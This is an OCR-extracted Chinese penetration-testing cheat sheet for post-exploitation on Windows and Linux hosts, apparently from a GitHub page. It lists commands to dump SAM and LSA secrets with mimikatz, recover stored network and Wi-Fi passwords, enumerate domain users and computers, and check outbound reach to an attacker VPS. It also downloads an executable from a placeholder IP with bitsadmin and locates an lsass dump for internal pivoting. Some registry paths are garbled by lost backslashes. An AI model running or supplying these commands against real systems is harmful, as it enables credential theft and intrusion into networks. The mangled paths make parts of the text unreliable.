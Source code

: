 > > dsquery user - 查找目录中的用户
> >
> > dsquery computer 查询所有计算机名称 windows 2003
> >
> > dir /s *.exe 查找指定目录下及子目录下没隐藏文件
> >
> > arp -a
>
> 发现远程登录密码等密码 netpass.exe  下载地址：
>
> > https://www.nirsoft.net/utils/network_password_recovery.html获取 window vpn 密码：
>
> > mimikatz.exe privilege::debug token::elevate lsadump::sam lsadump::secrets exit  wifi 密码：
>
> > netsh wlan show profile 	查处 wifi 名
> >
> > netsh wlan show profile WiFi-name key=clear 获取对应 wifi 的密码ie 代理
>
> > reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet 
> >
> > Settings" /v ProxyServer
> >
> > reg query "HKEY_CURRENT_USERSoftwareMicrosoftWindowsCurrentVersionInternet Settings"pac 代理
>
> > reg query "HKEY_USERSS-1-5-21-1563011143-1171140764-1273336227-500SoftwareMicrosoftWindowsCurrentVersionInternet 
> >
> > Settings" /v AutoConfigURL  //引子 t0stmailpowershell-nishang
>
> > https://github.com/samratashok/nishang
>
> ### 其他常用命令
>
> > ping    icmp 连通性
> >
> > nslookup www.baidu.com vps-ip dns 连通性
> >
> > dig @vps-ip www.baidu.com
> >
> > curl vps:8080  http 连通性
> >
> > tracert
> >
> > bitsadmin /transfer n http://ip/xx.exe C:\windows\temp\x.exe一种上传文件 >= 2008
> >
> > fuser -nv tcp 80 查看端口 pid
> >
> > rdesktop -u username ip linux 连接 win 远程桌面 (有可能不成功)
> >
> > where file win 查找文件是否存在 
> >
> > 找路径，Linux 下使用命令 find -name *.jsp 来查找，Windows 下，使用 for /r c:\windows\temp\ %i in (file lsss.dmp) do @echo %i
> >
> > netstat -apn | grep 8888  kill -9 PID  查看端口并 kill
>
> ### 远程登录内网主机
>
> 判断是内网，还是外网，内网转发到 vps
>
> > netstat -ano  没有开启 3389 端口,复查下
> >
> > tasklist /svc,查 svchost.exe 对应的 TermService 的 pid,看 netstat 相等的 pid 即 3389 端口.